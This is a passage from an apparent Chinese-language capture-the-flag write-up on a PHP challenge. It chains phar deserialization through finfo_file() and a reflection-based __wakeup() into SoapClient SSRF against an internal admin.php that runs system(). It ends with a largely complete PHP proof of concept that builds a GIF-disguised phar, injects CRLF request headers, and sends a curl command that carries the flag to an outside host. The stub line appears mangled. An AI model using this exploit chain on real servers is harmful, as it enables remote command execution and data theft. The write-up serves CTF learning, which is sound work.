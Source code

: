 跟进`getMIME()`函数

```php
    function getMIME(){
        $finfo = finfo_open(FILEINFO_MIME_TYPE);
        $this->type = finfo_file($finfo, $this->file_name);
        finfo_close($finfo);
    }
```

这里的`finfo_file()`可以触发`phar反序列化漏洞`。

`getIMIME()`是File类的方法，在File类中有一个很可疑的方法，就是`__wakeup()`

```php
    function __wakeup(){
        $class = new ReflectionClass($this->func);
        $a = $class->newInstanceArgs($this->file_name);
        $a->check();
    }
```

考察ssrf的地方到了.....admin.php仅内网可访问，这里使用SoapClient类发起一个访问

```php
//admin.php    
    function __destruct(){
        system($this->cmd);
    }
```

这里可以带出flag。

附上POC

```php
<?php
class File{
    public $file_name;
    public $type;
    public $func = "SoapClient";
    function __construct($file_name){
        $this->file_name = $file_name;
    }
}
$target = 'http://127.0.0.1/admin.php';
// $target = "http://106.14.153.173:2015";
//$post_string = 'admin=1&&clazz=Mysqli&func1=init&arg1=&func2=real_connect&arg2[0]=xxx.xxx.xxx.xxx&arg2[1]=root&arg2[2]=123&arg2[3]=test&arg2[4]=3306&func3=query&arg3=select%201&ip=xxx.xxx.xxx.xxx&port=xxxx';
$post_string ='admin=1&cmd=curl http://6fe82b486986/`/readflag`&clazz=SplStack&func1=push&func2=push&func3=push&arg1=123456&arg2=123456&arg3=123456'. "\r\n";

$headers = array(
    'X-Forwarded-For: 127.0.0.1',
);
// $b = new SoapClient(null,array("location" => $target,"user_agent"=>"zedd\r\nContent-Type: application/x-www-form-urlencoded\r\n".join("\r\n",$headers)."\r\nContent-Length: ".(string)strlen($post_string)."\r\n\r\n".$post_string,"uri"      => "aaab"));
$arr = array(null, array("location" => $target,"user_agent"=>"zedd\r\nContent-Type: application/x-www-form-urlencoded\r\n".join("\r\n",$headers)."\r\nContent-Length: ".(string)strlen($post_string)."\r\n\r\n".$post_string,"uri"      => "aaab"));
$phar = new Phar("1.phar"); //后缀名必须为phar
$phar->startBuffering();
// <?php __HALT_COMPILER();
$phar->setStub("GIF89a" . "< language='php'>__HALT_COMPILER();</>"); //设置stub
$o = new File($arr);
$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test");
```